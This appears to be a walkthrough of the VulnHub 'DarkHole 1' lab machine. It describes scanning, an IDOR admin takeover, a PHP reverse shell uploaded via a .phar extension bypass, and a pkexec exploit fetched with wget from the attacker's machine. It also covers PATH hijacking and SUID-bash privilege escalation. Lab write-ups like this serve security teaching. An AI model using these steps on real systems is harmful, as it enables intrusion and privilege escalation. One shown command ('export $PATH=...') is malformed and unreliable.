








# Black Hole

## General information

<h3>Difficulty:  </h3>

<h3> Operating system: Linux</h3> 

<h3> Date of resolution: 26/02/2025 </h3>

<h3>Link: <a href="https://www.vulnhub.com/entry/darkhole-1,724" target="_blank">Dark Hole</a></h3>

### *Read this document in spanish* <a href="darkhole.md">Dark hole</a>

## Recognition

Since we are working on the **VulnHub** platform, to find the machine's IP address we will have to do the following:

1.- All intrusions we are going to perform on both the attacker and victim machines must be in **VMware**

2.- Our Kali configuration must have the following:

In Player - Manage - Virtual Machine Settings - Network Adapter

<p align="center"> 

</p>

3.- In our kali we will do the following commands:

```
sudo arp-scan -I eth0 --localnet
```
and

```
macchanger -l | grep -i vmware
```

<p align="center"> 

</p>

We check that the IP of the victim machine is being detected

4.- I'm going to set the IP of the target mv in the **/etc/hosts** file, I'm going to call it **darkhole**

### Ping

Depending on the result we can deduce whether it is a Linux or Windows machine, for example:

```
ping -c 1 darkhole
```

Its ttl is 64, therefore the machine is linux.

### Scanning for open ports

#### TCP port scanning

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn darkhole
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                         |
| --------- | ------- | ------------------------------- |
| 22        | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 |
| 80        | http    | Apache httpd 2.4.41             |

</div>

#### UDP port scanning

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn darkhole
```

**All ports are closed**

## Explotation

Since port 80 is open, let's see its contents:

<p align="center"> 

</p>

In the right corner you can log in, but nothing more, I try to register, and I log in and the following appears

<p align="center"> 

</p>

In the URL where it says id=3, we change it to id=1

<p align="center"> 

</p>

We're going to intercept the page with **bup suite**

<p align="center"> 

</p>

Let's change ID 3 to 1, which is the super user (admin), then press **Forward**.

Since it's an easy machine, I'll try logging in with the **admin username and password 12345**.

<p align="center"> 

</p>

Next, Kali has a reverse shell that we're going to use to get into the system.

```
cp /usr/share/webshells/php/php-reverse-shell.php /home/kali/Desktop   
```

The only thing we need to change in php-reverse-shell.php is the following:

<p align="center"> 

</p>

The IP is from our attacking machine, Kali, and port 4444 would be the listening port.

Let's take the file to the desktop and upload it.

<p align="center"> 

</p>

Even if it says X extensions don't allow uploading, we'll try several alternatives using bupsuite. So we'll intercept this.

<p align="center"> 

</p>

Where .php is, click **Add$**

Then, in the section on the right, add the following extensions

<p align="center"> 

</p>

Then I have to go to **settings - add - Refetch response** and copy the following:
*Sorry, Allow Ex: jpg,png,gif*

<p align="center"> 

</p>

Finally, we click **Start Attack** and it will run the corresponding tests. Next, we'll use web fuzzing to find where the files were uploaded.

### Fuzzing web

```
gobuster dir -u http://darkhole -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Inside http://darkhole/upload/ we find the following:

<p align="center"> 

</p>

Now we are going to activate the listening port with the following command:

```
nc -lvp 4444
```

The first **.phar** is the one that worked for me.

<p align="center"> 

</p>

## Post-Exploitation

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

### Privilege Escalation

#### First Way to Exploit It

```
sudo -l
```
It asks us for a password.

#### Second Way to Exploit It

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Whenever we have the opportunity to escalate privileges with **pkexec** we google the following: <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">pkexec-exploit</a>

<p align="center"> 

</p>

To download it with **wget** we would only have to go here and copy the url

<p align="center"> 

</p>

```
wget https://raw.githubusercontent.com/NxPnch/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```

Then I changed the name to make it easier.

<p align="center"> 

</p>

I share the file with this command

```
python -m http.server 80
```

Then, located in the **/tmp** folder, I get the file with the following command:

```
wget http://ipMaquinaAtacante/exploit.py
```

<p align="center"> 

</p>

Then, we give it execution permission and execute

```
chmod +x exploit.py
./exploit.py
n
```

<p align="center"> 

</p>

Finally we go to the root folder, and read the .txt

<p align="center"> 

</p>

#### Third Way to Exploit It

It would be taking advantage of the file **toto** that is inside the user John which is a binary, and its uid is from the user john.

<p align="center"> 

</p>

We go to the **tmp** folder, inside we create a file called **id** and give it execution permission:

```
chmod +x id
```

Inside the id file we write:

```
bash -p 
```

If we want the terminal to be larger, we enter the following command:

```
stty rows 44 columns 184
```

Then, we write the following:

```
export $PATH=/tmp:$PATH
```

So, we managed to place an executable named `id` in `/tmp`, put `/tmp` at the beginning of `PATH` and thus make a SUID binary (in your example `toto`, owned by `john`) run `/tmp/id` instead of the legitimate binary. If `toto` runs with effective UID `john` then the child process will also inherit that effective UID and if `id` issues `bash -p` then the shell will preserve the effective UID (you would be `john` in the shell).

<p align="center"> 

</p>

I'm John. We read the password file, and it gives us a password.

<p align="center"> 

</p>

I get the password, I can access via ssh with:

Usuario: john <br>
Contraseña: root123

We can read John's flag:

<p align="center"> 

</p>

Finally executing the command:

```
sudo -l
```

Using the password found previously, we find the following:

<p align="center"> 

</p>

The script **file.py** has root ID. I want to know what permissions the file.py file has.

<p align="center"> 

</p>

What a coincidence, I happen to be able to use it, so within the script we write the following:

<p align="center"> 

</p>

This command assigns the suid to the bash, and since the suid is root, well... we will be **root**

```
sudo /usr/bin/python3 /home/john/file.py
bash -p
```

<p align="center"> 

</p>

## Conclusion

In Vulnhub using the Dark Hole 1 machine, I found it to be a very interesting machine, it was most curious when it came to using **burpsuite** to change the **admin** user password (being a simple machine, I decided to try with typical users to log in and I succeeded). The next thing was to upload files trying to use the one that has Kali, changing the extension to one that was not **php**, since, with the latter it did not let me. When I entered the system, I investigated that there are two **ways** to escalate privileges, one was to exploit the **pkexec** binary and with that we would end up being root, another way would be to take advantage of the **toto** binary that is inside the **john** folder, and being john, finally, using the **file.py** script we would be root. A machine where the small details and reviewing what a suid is, we managed to exploit the vulnerabilities.